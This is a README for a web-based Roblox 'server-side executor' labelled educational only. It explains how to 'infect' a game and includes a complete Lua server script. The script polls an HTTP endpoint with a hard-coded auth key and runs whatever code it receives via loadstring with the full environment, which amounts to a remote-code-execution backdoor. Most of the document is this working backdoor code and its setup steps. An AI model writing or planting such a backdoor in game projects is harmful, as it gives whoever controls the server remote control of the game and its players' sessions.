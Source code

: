 # X-S_Ploit-Web-SS
** A Web-Based Roblox Server-Side Executor **
**NOTE:** *EDUCATIONAL PURPOSES ONLY!!!*

# How to start server?
**go to cmd to node-server and type node server.js(you must have installed Node.js)**
**Now go to localhost:3000 and open roblox studio or other game infected !!!MAKE SURE YOU JOINED INFECTED GAME FROM DEVICE WHERE STARTED SERVER!!! **

# HOW TO INFECT GAME
**ENABLE HTTP REQUESTS AND LOADSTRING AND CREATE SERVER SCRIPT AND PASTE IT**
```
local HttpService = game:GetService("HttpService")
local RunService = game:GetService("RunService")

local SERVER_URL = "http://localhost:3000/api/commands"
local AUTH_KEY = "X3D"
local POLL_INTERVAL = 0.5

local function executeAnything(code)
	local fn, err = loadstring(code)
	if not fn then return false, err end

	setfenv(fn, getfenv())
	return pcall(fn)
end

while task.wait(POLL_INTERVAL) do
	pcall(function()
		local response = HttpService:GetAsync(SERVER_URL.."?auth="..AUTH_KEY)
		local commands = HttpService:JSONDecode(response)

		for _, cmd in ipairs(commands) do
			if type(cmd.code) == "string" then
				local success, result = executeAnything(cmd.code)
				print(success and "✅ Executed" or "❌ Failed", "ID:", cmd.id)
				if not success then warn(result) end
			end
		end
	end)
end
```

# HOW TO ENABLE LOADSTRING
**CLICK ON SERVERSCRIPTSERVICE AND GO TO PROPERTIES AND CHECK LOADSTRINGENABLED**
